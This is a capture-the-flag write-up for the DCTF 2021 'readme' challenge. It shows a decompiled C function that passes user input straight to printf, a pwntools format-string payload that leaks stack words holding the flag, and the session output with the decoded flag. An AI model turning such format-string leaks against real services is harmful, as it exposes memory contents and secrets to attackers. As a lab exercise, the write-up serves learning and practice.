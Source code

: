 

Here is the ``vuln`` function, it reads the flag from *flag.txt*, stores it in an array before the user input array, it takes *0x1e* bytes of input and print it with *printf*. Considered using format string attack, make *printf* print the flag.

```c
void vuln(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char flag [32];
  char input [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(flag,0x1c,__stream);
  fclose(__stream);
  puts("hello, what\'s your name?");
  fgets(input,0x1e,stdin);
  printf("hello ");
  printf(input);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

After severl attemps found the flag located at around "%7$lx" to "%11$lx", so made up the payload as follow.

```python
payload = ''
for i in range(11, 7, -1):
    payload += "%{}$lx".format(i)

pr.sendafter("name?\n", payload)
pr.sendline()
s = pr.readall(2).decode().strip()
s = s[s.find(' ')+1:]
print(s)
print(''.join(reversed(''.join([chr(int(s[i:i+2],16)) for i in range(0, len(s), 2)]))))
```

Sent the payload and the server replied with the flag.

```bash
$ python3 exploit.py
[+] Opening connection to dctf-chall-readme.westeurope.azurecontainer.io on port 7481: Done
%11$lx%10$lx%9$lx%8$lx
[+] Receiving all data: Done (67B)
[*] Closed connection to dctf-chall-readme.westeurope.azurecontainer.io port 7481
7f6f00356b3030625f656d30735f646133725f30675f77306e7b66746364
dctf{n0w_g0_r3ad_s0me_b00k5\x00\x7f
```

Full exploit goes [here](https://github.com/onealmond/hacking-lab/blob/master/dctf-2021/readme/exploit.py).
